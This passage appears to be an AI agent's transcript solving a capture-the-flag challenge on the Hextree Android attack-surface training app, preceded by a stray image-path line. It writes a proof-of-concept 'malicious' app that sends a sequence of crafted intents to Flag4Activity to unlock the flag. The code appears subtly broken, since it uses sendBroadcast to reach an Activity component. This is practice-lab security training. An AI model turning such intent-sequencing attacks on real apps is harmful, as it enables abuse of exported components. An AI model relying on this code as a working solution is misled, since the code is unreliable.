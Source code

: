 Therefore, to solve the challenge, we need to send a sequence of intents with the following actions: `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and then any action.

Now, let's construct the malicious Android application to send these intents. I'll create `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '\n'
            '        // Target component\n'
            '        String targetPackage = "io.hextree.attacksurface";\n'
            '        String targetClass = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '        // Create the intents with the required actions\n'
            '        Intent prepareIntent = new Intent();\n'
            '        prepareIntent.setComponent(new '
            'ComponentName(targetPackage, targetClass));\n'
            '        prepareIntent.setAction("PREPARE_ACTION");\n'
            '\n'
            '        Intent buildIntent = new Intent();\n'
            '        buildIntent.setComponent(new ComponentName(targetPackage, '
            'targetClass));\n'
            '        buildIntent.setAction("BUILD_ACTION");\n'
            '\n'
            '        Intent getFlagIntent = new Intent();\n'
            '        getFlagIntent.setComponent(new '
            'ComponentName(targetPackage, targetClass));\n'
            '        getFlagIntent.setAction("GET_FLAG_ACTION");\n'
            '\n'
            '        Intent triggerIntent = new Intent();\n'
            '        triggerIntent.setComponent(new '
            'ComponentName(targetPackage, targetClass));\n'
            '        triggerIntent.setAction("TRIGGER_ACTION");\n'
            '\n'
            '        // Send the intents in sequence\n'
            '        sendBroadcast(prepareIntent);\n'
            '        Log.i("MaliciousApp", "Sent PREPARE_ACTION");\n'
            '        sendBroadcast(buildIntent);\n'
            '        Log.i("MaliciousApp", "Sent BUILD_ACTION");\n'
            '        sendBroadcast(getFlagIntent);\n'
            '        Log.i("MaliciousApp", "Sent GET_FLAG_ACTION");\n'
            '        sendBroadcast(triggerIntent);\n'
            '        Log.i("MaliciousApp", "Sent TRIGGER_ACTION");\n'
            '\n'
            '        finish(); // Close the activity after sending the '
            'intents\n'
            '    }\n'
            '}\n',
 'file_path': 'MaliciousFlag4PoC.java'})
